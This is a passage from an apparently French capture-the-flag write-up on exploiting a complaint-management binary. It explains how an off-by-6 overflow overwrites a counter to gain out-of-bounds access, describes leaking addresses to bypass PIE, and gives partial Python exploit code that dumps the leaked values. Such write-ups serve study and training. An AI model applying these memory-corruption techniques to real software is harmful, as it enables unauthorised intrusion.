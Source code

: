 # Exploitation

On a donc ici un `"Off by 6"` qui nous permet de modifier 6 octets.
Maintenant regardons la structure qui contient les plaintes pour voir ce que nous pouvons modifier.
```C
// Tableau global pour stocker les plaintes
struct {
    Plainte plaintes[5];
    int nombre_plaintes;
} locals;
```
Si on utilise le bug sur la dernière plainte (index=4), on peut totalement modifier `nombre_plaintes`.
`nombre_plaintes` est utilisé dans `modifier_plainte_par_index` pour vérifier que notres index est valide. Donc modifier cette variable nous permet d'accéder à des plaintes en dehors du tableau et d'obtenir un bug de type `"Out of bound"`, bien plus puissant que celui d'avant.
![](offbyone_to_oob.png)

#### Contourner le PIE

On peut maintenant accéder à n'importe quel index du tableau et lire ou écrire. D'après ce que `checksec` nous a montrer, l'adresse du binaire est aléatoire (`PIE`), il nous faut donc un leak, c'est à dire lire en dehors du tableau grâce au bug et obtenir cette adresse aléatoire. J'ai écrit un début d'exploit qui permet de leak les valeurs en dehors du tableau:

```py
def exploit():
	# Fonctions pour intéragir avec le menu du binaire.
    def add(data):
        choice(1)
        sprefix(data)
    def edit(index, data):
        choice(2)
        choice(index)
        sprefix(data)
    def show():
        choice(3)
		recvu(b"Liste des plaintes:\n")
        leak = recvu(b"1. Ajouter")
        leaks = []
        for l in leak.splitlines():
            leaks.append(getb(l, b". ", b""))
        return leaks

	# Début
	
    for _ in range(5): # On ajoute 5 plaintes, pour ensuite modifier la dernière avec 24 octets.
        add(b"a")

    # On modifie la dernière plainte avec 24 octets, ici nombre_plainte sera remplacé par 0x20.
    edit(4, b"A"*0x10 + p64(0x20)[:5])
	# On peut maintenant accéder à des plaintes en dehors du tableau, jusqu'à l'index 32.

    leaks = show() # On utilise "afficher_toutes_les_plaintes" pour leak des valeurs.
    for i in range(len(leaks)):
        print("%#04x %#018x" % (i, u64(leaks[i])))

```